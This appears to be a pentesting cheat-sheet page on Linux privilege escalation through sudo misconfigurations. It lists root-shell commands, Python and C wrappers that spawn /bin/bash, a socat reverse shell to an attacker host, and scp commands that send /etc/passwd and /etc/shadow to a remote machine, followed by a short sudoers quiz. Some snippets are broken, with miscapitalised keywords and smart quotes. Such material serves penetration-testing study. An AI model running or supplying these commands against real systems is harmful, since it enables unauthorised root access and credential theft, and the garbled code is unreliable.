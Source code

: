 ```yaml
---
description: Linux privilege escalation quick win
---
```


# Quick win - Sudo -l

{% embed url="https://gtfobins.github.io/" %}

{% code overflow="wrap" %}
```bash
# Username Machine:(Run as) 'Command to execute' 
# iptracej ALL:(ALL:ALL) ALL  # This is a sample syntx. 

sudo -l
```
{% endcode %}

### Allow Root Privilege to binary commands.

{% code overflow="wrap" %}
```bash
# (root) ALL

sudo su
#or
sudo bash

sudo -s # spawn a new shell with root privildge
sudo -i # spawn a new shell with root privilege with root' env and profile
sudo /bin/bash
sudo passwd

# (root) NOPASSWD: /usr/bin/find
# Check find command in GTFBions
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

### Allow Root Privilege to scripts.

{% code overflow="wrap" %}
```bash
# (root) NOPASSWD: /bin/script/file.sh, /bin/script/file.py, shell

# Python

#!  /usr/bin/python
Import os
Os.system(“/bin/bash”)

sudo /bin/script/file.py 

# C

#include<stdio.h>
#include <unistd.h>
#include<sys/types.h>
Int main(){
	Setuid(geteuid());
	System(“/bin/bash”);
	Return 0;
}

gcc demo.c -o shell
sudo ./shell

# Bash Script

#! /bin/bash
/bin/bash

sudo /bin/script/file.sh 
```
{% endcode %}

### Allow Sudo Right to other programs.&#x20;

```bash
# (ALL) NOPASSWD: /usr/bin/env, /usr/bin/ftp, /usr/bin/scp, /usr/bin/socat

# env
$sudo env /bin/bash

# socat
$socat file:`tty`,raw,echo=0 tcp-listen:1234 (attacker)
$sudo socat exec:'sh -li',pty,stderr,setsid,sigint,sane tcp:$IP:1234 (victim)

# scp
sudo scp /etc/passwd user@$IP:~/
sudo scp /etc/shadow user@$IP:~/
```

### Test your knowledge.&#x20;

{% code overflow="wrap" %}
```bash
# A defined user or group has the ability to execute any command as any user with root privileges using the sudo command
ALL=(ALL) ALL 

# A defined user or group is allowed to run any command as the root user on any host using the sudo command. 
(root) ALL

# A defined user or group is allowed to execute the following commands without password.
(root) NOPASSWD: /bin/script/file.sh, /bin/script/file.py, shell

# A defined user or group is allowed to execute the following commands as any usr with root privilege using the sudo command. 
(ALL) NOPASSWD: /usr/bin/env, /usr/bin/ftp, /usr/bin/scp, /usr/bin/socat
```
{% endcode %}

